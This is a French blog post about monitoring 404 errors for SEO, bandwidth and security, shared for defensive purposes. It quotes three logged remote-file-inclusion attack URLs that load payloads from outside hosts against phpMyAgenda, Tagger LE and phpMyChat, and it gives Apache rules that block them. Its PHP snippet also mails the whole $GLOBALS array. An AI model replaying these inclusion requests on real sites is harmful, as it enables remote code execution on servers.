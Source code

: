 ```yaml
---
title:      Surveillez vos erreurs 404, elles peuvent être très instructives
lang:       fr
tags:       ["404", SEO, security, WebPerf]
---
```


A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur] ?

[^erreur]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu…

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).

![](google-webmasters-404.png "Erreurs 404 de Gastero Prod référencées par Google")

Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
  '[GP404] '.$_SERVER['REQUEST_URI'],
  '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
  'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! ;-)

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet…

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi…

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```apacheconf
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
